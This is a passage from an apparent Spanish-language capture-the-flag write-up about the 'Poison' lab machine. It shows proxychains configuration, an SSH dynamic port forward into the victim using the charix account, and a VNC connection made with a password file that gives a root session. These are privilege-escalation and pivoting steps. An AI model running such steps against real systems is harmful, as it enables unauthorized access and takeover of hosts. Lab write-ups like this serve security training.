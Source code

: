 Con `proxychains` vamos a realizar un `dinamic port forwarding` para traernos `todos` los `puertos` de la máquina víctima a nuestro equipo. Para ello `modificamos` el `archivo` `/etc/proxychains4.conf` añadiéndole esta línea al final

```
# sudo nano /etc/proxychains4.conf
socks4  127.0.0.1 9050
```

Nos `conectamos` a la máquina víctima por `SSH` realizando un `dinamic port forwarding`

```
# ssh charix@10.129.252.206 -D 9050 
(charix@10.129.252.206) Password for charix@Poison:
Last login: Mon Aug  5 14:02:08 2024 from 10.10.16.35
FreeBSD 11.1-RELEASE (GENERIC) #0 r321309: Fri Jul 21 02:08:28 UTC 2017

Welcome to FreeBSD!

Release Notes, Errata: https://www.FreeBSD.org/releases/
Security Advisories:   https://www.FreeBSD.org/security/
FreeBSD Handbook:      https://www.FreeBSD.org/handbook/
FreeBSD FAQ:           https://www.FreeBSD.org/faq/
Questions List: https://lists.FreeBSD.org/mailman/listinfo/freebsd-questions/
FreeBSD Forums:        https://forums.FreeBSD.org/

Documents installed with the system are in the /usr/local/share/doc/freebsd/
directory, or can be installed later with:  pkg install en-freebsd-doc
For other languages, replace "en" with a language code like de or fr.

Show the version of FreeBSD installed:  freebsd-version ; uname -a
Please include that output and any error messages when posting questions.
Introduction to manual pages:  man man
FreeBSD directory layout:      man hier

Edit /etc/motd to change this login announcement.
You can press Ctrl-L while in the shell to clear the screen.
csh: The terminal database could not be opened.
csh: using dumb terminal settings.
charix@Poison:~ % 
```

Usando `proxychains` abrimos `vncviewer`

```
# proxychains vncviewer -passwd secret 127.0.0.1::5901 
```

Se nos abre esta `ventana` en la que estamos como el usuario `root`
